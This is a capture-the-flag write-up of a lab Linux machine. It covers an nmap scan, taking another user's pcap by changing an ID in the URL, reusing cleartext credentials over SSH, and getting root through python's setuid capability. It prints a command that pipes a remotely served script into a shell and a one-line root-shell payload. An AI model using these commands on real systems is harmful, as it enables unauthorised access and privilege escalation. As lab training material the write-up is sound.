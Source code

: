 ![image](https://user-images.githubusercontent.com/105310322/187503339-f2ac411f-ca26-471e-b65a-cad7469f7bbc.png)

### Tools: Nmap, FTP, SSH, Linpeas, Python


Nmap scan shows port 80 and port 22 are open. Maybe we can grab some credentials from the http site and login through ssh.

```console
sudo nmap -sC -sV -O -A -Pn 10.129.80.145
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-03 23:20 BST
Nmap scan report for 10.129.80.145
Host is up (0.0065s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=8/3%Time=62EAF4D7%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20W
SF:ed,\x2003\x20Aug\x202022\x2022:21:11\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x201938
SF:6\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\n
SF:\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x
SF:20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image/
SF:png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<l
SF:ink\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">\
SF:n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/font
SF:-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=\
SF:"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.c
SF:ss\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/cs
SF:s/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptions
SF:,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,\x20
SF:03\x20Aug\x202022\x2022:21:12\x20GMT\r\nConnection:\x20close\r\nContent
SF:-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20
SF:HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text/
SF:html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20\
SF:x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\n
SF:\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invalid
SF:\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP/
SF:1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189,
SF:"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20We
SF:d,\x2003\x20Aug\x202022\x2022:21:17\x20GMT\r\nConnection:\x20close\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\r
SF:\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20F
SF:inal//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\
SF:n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20serv
SF:er\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20che
SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/3%OT=21%CT=1%CU=31834%PV=Y%DS=2%DC=T%G=Y%TM=62EAF55E
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11
OS:NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   10.70 ms 10.10.14.1
2   10.86 ms 10.129.80.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.02 seconds
```

On the website we can see we are logged in as the user Nathan and we have a couple of different places to go. Lets start with the security snapshot.

![image](https://user-images.githubusercontent.com/105310322/183150769-dfb7ac3d-884a-4299-acf6-161cc1cc971c.png)

Here we can download a pcap file but right now it doesnt have any traffic, But if we look at the URL we can see http://10.129.110.186/data/1. If we change that 1 to a 0 we can get the previous pcap download!

![image](https://user-images.githubusercontent.com/105310322/183151068-2c3e3391-19ae-4b12-b25e-49ebe5052a9b.png)

After downloading the pcap file and opening it up in wireshark we find some cleartext credentials.

![image](https://user-images.githubusercontent.com/105310322/183151371-1ac9a8ca-d2d7-4d9f-93b5-ea69d0465110.png)

Nicely done now we can login through ssh and grab the user flag! (You can also get this flag through ftp by running ```$ get user.txt -```, however you will not be able to retrieve the root flag)

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ ssh nathan@10.129.110.186
nathan@10.129.110.186's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
Last login: Fri Aug  5 19:29:30 2022 from 10.10.14.93
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
e629****************************
```

Awesome but now we need to get the root flag, however we can't just waltz right in there. We are going to have to priveledge escalate. So lets run linpeas from Nathan's account.

First lets download it from github. (This following URL also gives good info on how to run it)

```console
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
By inputting the following commands we can get it to run (```python -m http.server 80``` is another option since linpeas SimpleHTTPServer was not working for me)

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
The following output with linpeas reveals "/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip" as our way to priviledge exscalate. (for me this was highlighted in bright yellow so its hard to miss) The following URL to hacktricks also gives good info on how to abuse the setuid capability.

```console
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current env capabilities:
Current: =
Current proc capabilities:
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Parent Shell capabilities:
0x0000000000000000=

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Run the python script and it will give us a root shell and the flag!!

```console
nathan@cap:/bin$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/bin# ls
root@cap:/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
b6af****************************
```

Congratulations on PWNing this box and I hope this writeup taught you something!
